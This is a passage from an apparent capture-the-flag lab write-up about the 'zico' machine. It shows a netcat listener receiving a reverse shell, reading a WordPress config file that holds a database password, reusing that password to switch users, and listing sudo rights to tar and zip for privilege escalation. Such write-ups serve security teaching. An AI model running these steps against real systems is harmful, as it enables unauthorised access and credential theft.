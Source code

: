 We have a shell with user privileges **www-data**.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.179] 55927
www-data@zico:/var/www$
```

Listing the wordpress config file in the zico's home directory. 

```console
www-data@zico:/home/zico/wordpress$ head -40 wp-config.php
head -40 wp-config.php
...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'zico');

/** MySQL database username */
define('DB_USER', 'zico');

/** MySQL database password */
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');

/** MySQL hostname */
define('DB_HOST', 'zico');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
```

We reuse the wordpress password to login as user zico.

## Privilege Escalation
### Password reuse

```console
www-data@zico:/home/zico$ su zico
su zico
Password: sWfCsfJSPV9H3AmQzw8

zico@zico:~$ id
id
uid=1000(zico) gid=1000(zico) groups=1000(zico)
```

The zico user has sudo privileges to run the tar and zip binaries, we'll use the both to get root.

```console
zico@zico:~$ sudo -l
sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
```
